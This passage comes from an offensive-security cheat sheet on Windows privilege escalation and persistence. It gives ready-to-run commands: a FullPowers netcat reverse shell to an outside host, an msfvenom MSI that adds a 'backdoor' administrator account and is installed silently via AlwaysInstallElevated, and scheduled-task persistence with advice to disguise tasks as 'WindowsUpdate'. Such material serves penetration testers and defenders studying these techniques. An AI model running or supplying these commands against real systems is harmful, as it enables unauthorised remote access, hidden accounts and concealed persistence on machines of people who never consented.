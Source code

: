 [FullPowers](https://github.com/itm4n/FullPowers) is a tool that allows us to automatically recovering the default privilege set of a service account including SeAssignPrimaryToken and SeImpersonate.

*Note that this tool should be executed as LOCAL SERVICE or NETWORK SERVICE only*

```bash
# Simple recovery
FullPowers
# Specify a custom command line
FullPowers -c "powershell -ep Bypass"
# Start a netcat reverse shell and exit
FullPowers -c "C:\nc64.exe 1.2.3.4 1337 -e cmd" -z
```

#### AlwaysInstallElevated

AlwaysInstallElevated allows that any user can install .msi files as **NT AUTHORITY\SYSTEM**
You can check if it's enabled by checking both those registry keys

```bash
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

You can then create a malicious msi binary and execute it.

```bash
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
msiexec /quiet /qn /i C:\evil.msi
```

There is a Metasploit module for it *exploit/windows/local/always_install_elevated*

### Scheduled Tasks Enumeration

Check if you have write access to "C:\Windows\system32\Tasks"

> / / / To Finish

```bash
schtasks /query /fo LIST /v
```

Here are interesting schedule time for persistence:

- ONSTART: Specifies that the task runs every time the system starts. You can specify a start date, or run the task the next time the system starts.
- ONLOGON: Specifies that the task runs whenever a user (any user) logs on. You can specify a date, or run the task the next time the user logs on.
- ONIDLE: Specifies that the task runs whenever the system is idle for a specified period of time. You can specify a date, or run the task the next time the system is idle.

[SharPersist](https://github.com/fireeye/SharPersist) can be used to try to perform a Scheduled Task Backdoor

When creating a new scheduled task, try to masquerade it with something like:

- WindowsUpdate
- WMIPerformanceAdapterExtension
- ..
